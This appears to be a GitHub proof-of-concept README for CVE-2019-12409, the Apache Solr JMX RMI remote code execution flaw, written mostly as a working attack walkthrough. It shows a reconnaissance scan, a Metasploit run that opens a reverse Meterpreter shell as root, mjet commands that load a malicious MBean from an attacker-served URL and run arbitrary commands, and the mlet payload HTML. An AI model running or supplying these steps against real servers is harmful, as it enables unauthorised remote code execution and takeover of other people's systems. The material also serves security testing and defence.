



# CVE-2019-12409 Apache Solr RCE 


## ENABLE_REMOTE_JMX_OPTS="true"

```
root@kali:/opt/solr-8.1.1/bin# cat solr.in.sh |grep true
# Set to true to activate the JMX RMI connector to allow remote JMX client applications
ENABLE_REMOTE_JMX_OPTS="true"
#SOLR_OPTS="$SOLR_OPTS -Dsolr.clustering.enabled=true"
# Enables log rotation before starting Solr. Setting SOLR_LOG_PRESTART_ROTATION=true will let Solr take care of pre
# Enables HTTPS. It is implictly true if you set SOLR_SSL_KEY_STORE. Use this config
#SOLR_SSL_ENABLED=true
#SOLR_SSL_CHECK_PEER_NAME=true

```


## nmap scan info
```
root@kali:/opt/mjet# nmap -p 18983 -Pn -T5 -n -sC -sV 10.10.20.166 -sC -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-19 17:00 CST
Nmap scan report for 10.10.20.166
Host is up (0.00016s latency).

PORT      STATE SERVICE  VERSION
18983/tcp open  java-rmi Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @127.0.1.1:18983
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
root@kali:/opt/mjet# 

```

## 0x01 use msf

```
msf5 exploit(multi/misc/java_jmx_server) > show options 

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        10.10.20.166     yes       The target address range or CIDR identifier
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.20.166     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 10.10.20.166:4444 
[*] 10.10.20.166:18983 - Using URL: http://0.0.0.0:8080/2kDic5
[*] 10.10.20.166:18983 - Local IP: http://10.10.20.166:8080/2kDic5
[*] 10.10.20.166:18983 - Sending RMI Header...
[*] 10.10.20.166:18983 - Discovering the JMXRMI endpoint...
[+] 10.10.20.166:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 10.10.20.166:18983 - Proceeding with handshake...
[+] 10.10.20.166:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 10.10.20.166:18983 - Loading payload...
[*] 10.10.20.166:18983 - Replied to request for mlet
[*] 10.10.20.166:18983 - Replied to request for payload JAR
[*] 10.10.20.166:18983 - Executing payload...
[*] Sending stage (53845 bytes) to 10.10.20.166
[*] Meterpreter session 2 opened (10.10.20.166:4444 -> 10.10.20.166:48474) at 2019-11-19 16:39:49 +0800

meterpreter > sysinfo
Computer    : kali
OS          : Linux 4.19.0-kali1-amd64 (amd64)
Meterpreter : java/linux
meterpreter > shell
Process 1 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/solr-8.1.1/server
ls
contexts
etc
lib
logs
modules
README.txt
resources
scripts
solr
solr-webapp
start.jar
exit
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(multi/misc/java_jmx_server) > 

```

## 0x02 use mjet



#### usage:

`java -jar jython-standalone-2.7.0.jar mjet.py 10.10.20.166 18983 install super_secret http://10.10.20.166:8000/ 8000`

`java -jar jython-standalone-2.7.0.jar mjet.py 127.0.0.1 18983 command super_secret "id&&pwd&&ls"`

#### mlet

```
<html>
<mlet code="de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload" archive="qgmncrbu.jar" name="MogwaiLabs:name=payload,id=1" codebase="http://10.10.20.166:8000/">
</mlet>
</html>
```
#### attack example

```
root@kali:/opt/mjet# java -jar jython-standalone-2.7.0.jar mjet.py 10.10.20.166 18983 install super_secret http://10.10.20.166:8000/ 8000

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Starting webserver at port 8000
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.10.20.166:18983/jmxrmi
[+] Connected: rmi://127.0.0.1  18
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://10.10.20.166:8000/
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
<html><mlet code="de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload" archive="qgmncrbu.jar" name="MogwaiLabs:name=payload,id=1" codebase="http://10.10.20.166:8000/"></mlet></html>
10.10.20.166 - - [19/Nov/2019 03:39:17] "GET / HTTP/1.1" 200 -
[+] Object instance already existed, no need to install it a second time
[+] Done
root@kali:/opt/mjet# java -jar jython-standalone-2.7.0.jar mjet.py 127.0.0.1 18983 command super_secret "id&&pwd&&ls"

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://127.0.0.1:18983/jmxrmi
[+] Connected: rmi://127.0.0.1  19
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Executing command: id&&pwd&&ls
uid=0(root) gid=0(root) groups=0(root)
/opt/solr-8.1.1/server
contexts
etc
lib
logs
modules
README.txt
resources
scripts
solr
solr-webapp
start.jar


[+] Done
root@kali:/opt/mjet# 

```


## 参考链接：

https://mogwailabs.de/blog/2019/04/attacking-rmi-based-jmx-services/

https://www.rapid7.com/db/modules/exploit/multi/misc/java_jmx_server

https://github.com/mogwailabs/mjet
